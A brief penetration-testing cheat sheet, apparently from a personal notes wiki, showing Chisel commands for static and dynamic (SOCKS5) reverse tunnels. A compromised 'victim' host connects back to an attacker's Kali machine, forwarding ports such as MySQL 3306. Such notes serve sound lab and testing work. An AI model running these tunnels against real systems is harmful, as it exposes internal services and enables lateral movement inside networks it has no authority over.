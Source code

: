 ## Static tunnel
```bash
# First on Kali:
chisel server -p 9001 --reverse
# Then on host (victim):
chisel client <your-kali-ip>:9001 R:3306:127.0.0.1:3306 # 3306 for mysql, but could be any port you want
./chisel client 192.168.49.196:80 R:8443:127.0.0.1:8443 # 3306 for mysql, but could be any port you want
```
## Dynamic tunnel
```bash
# On Kali:
chisel server -p 9050 --socks5 --reverse 
# On host (victim):
chisel client <kali-ip>:9050 R:socks
```

## More Information
- [[Chisel]]
- [[Proxychains]]
- [[Sshuttle]]
